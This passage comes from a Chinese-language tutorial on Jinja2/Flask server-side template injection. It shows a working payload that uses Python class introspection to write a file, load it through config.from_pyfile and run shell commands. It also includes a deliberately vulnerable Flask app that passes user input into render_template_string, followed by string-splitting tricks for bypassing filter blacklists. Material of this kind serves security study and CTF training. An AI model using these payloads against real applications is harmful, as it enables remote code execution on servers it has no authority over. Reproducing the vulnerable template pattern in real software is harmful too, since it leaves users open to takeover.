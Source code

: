 playload：

```jinja2
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件,不通用的,最简单是相同路径放一个文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('calc') }}  或 {{ config['SHELL']('gnome-calculator') }}
//window或ubuntu执行命令，弹出计算机
```

### 利用模语言自身的特性

Python  最最经典的就是使用魔法方法，这里就涉及到Python沙盒绕过了，前面说过，模板的设计者也发现了模板的执行命令的特性，于是就给模本增加了一种沙盒的机制，在这个沙盒中你很难执行一般我们能想到函数，基本都被禁用了，所以我们不得不使用自省的机制来绕过沙盒，详细看上面

## 过滤绕过(python)

>   下面是将常见的绕过介绍一下
>
>   对黑名单绕过，可以看[(47条消息) 细说Jinja2之SSTI&bypass_合天网安实验室的博客-CSDN博客](https://blog.csdn.net/qq_38154820/article/details/111399386)

测试环境

```python
from flask import Flask

from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)
@app.route('/')
def test():
    code = request.args.get('id')
    template = '''
        &lt;h3&gt;%s&lt;/h3&gt;
    '''%(code)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=80)
```

### 字符串绕过

*   **字符拼接**

    `""["__cla""ss__"]`
    `"".__getattribute__("__cla""ss__")`
